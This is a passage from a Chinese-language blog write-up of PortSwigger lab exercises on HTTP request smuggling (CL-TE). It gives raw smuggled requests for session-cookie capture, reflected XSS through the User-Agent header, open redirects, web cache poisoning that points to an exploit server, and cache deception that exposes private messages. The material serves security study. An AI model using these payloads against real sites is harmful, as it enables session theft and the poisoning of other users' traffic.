Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Length: 600
Content-Type: application/x-www-form-urlencoded
Cookie: session=TJoTuRZfJ7lo34B90Qx38aS4mnL19b87

csrf=T7b6sV5RKZSljTWkHQlZ5CqpA3AoLkhg&postId=8&name=2&email=1%4011.com&website=http%3A%2F%2Fwww.baidu.com&comment=
```

就可以得到：



试了一晚上，还是没有完整的泄露出来，，可能是不够长？？？但是太长总提示超时，，，

## Exploit Reflected XSS

这个场景比较少见，利用也有受限。同样，如果有，可以拿到别人的cookie。

lab：https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

还是CL-TE：

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。
>
>   该应用程序还容易受到通过 User-Agent 标头反射的 XSS 的攻击。
>
>   为了解决实验室问题，将请求偷运到后端服务器，导致下一个用户的请求接收包含执行 alert(1) 的 XSS 漏洞的响应。

UA的地方可以xss：

```http
POST / HTTP/1.1
Host: 0a1700880449444fc029034c00a000a0.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=UlNKTSZflefPZc6kewaDGpemn7Isi5I0
Upgrade-Insecure-Requests: 1
Content-Length: 148
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```



之后打开就会弹窗：


## Turn An On-Site Redirect Into An Open Redirect

这种攻击场景是在目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```http
GET /home HTTP/1.1
Host: normal-website.com
```

会得到这样的响应：

```http
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

如果配合请求走私：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私之后的请求会这样：

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

服务器如果根据host跳转的话，会有入下响应：

```http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

用户请求的是由网站上的页面导入的JS文件。攻击者可以通过在响应中返回他们自己的JS代码来进行其他操作。

## Perform Web Cache Poisoning

web缓存投毒，基于上面host的场景，如果front服务器存在缓存静态资源的话，可以配合http请求走私进行缓存投毒。

Lab：[Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。 前端服务器被配置为缓存某些响应。
>
>   为了解决实验室问题，请执行导致缓存中毒的请求走私攻击，以便随后对 JavaScript 文件的请求接收到对漏洞利用服务器的重定向。 中毒的缓存应该提醒 document.cookie。

点击next page的时候会有跳转，这里lab给了我们用于制造投毒的服务，选择在`/resources/labheader/js/labHeader.js`进行投毒：




```http
POST / HTTP/1.1
Host: 0a4d00aa034f37b3c07f0706003000fc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a2a001103fb3720c0e707a401e90038.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```


之后访问需要缓存投毒的文件，可以看到已经重定向到投毒的服务器文件了：



之后访问主页直接跳转：




## Perform Web Cache Deception

缓存欺骗，和上面的缓存投毒差不多，有一点区别。

>    网络缓存中毒和网络缓存欺骗有什么区别？
>
>   在 Web 缓存中毒中，攻击者使应用程序在缓存中存储一些恶意内容，并将这些内容从缓存中提供给其他应用程序用户。
>   在网络缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容。

比如，如下请求：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

这个走私的请求会使用`Foo: X`吃掉下面一个请求的第一行，并且这个请求还会带着用户的 Cookie 去访问，类似于一个CSRF，该请求变成了以下请求头：

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
```

多发送几次后如果用户访问的是静态资源，有一定几率被Front服务器存下来，就可以拿到用户`/private/messages`的信息了。

# END.

花了好久终于写+复现完了，好了好了 ，搞其他东西去了。


一些参考链接：

>   https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/
>
>   https://regilero.github.io/tag/Smuggling/
>
>   https://paper.seebug.org/1048/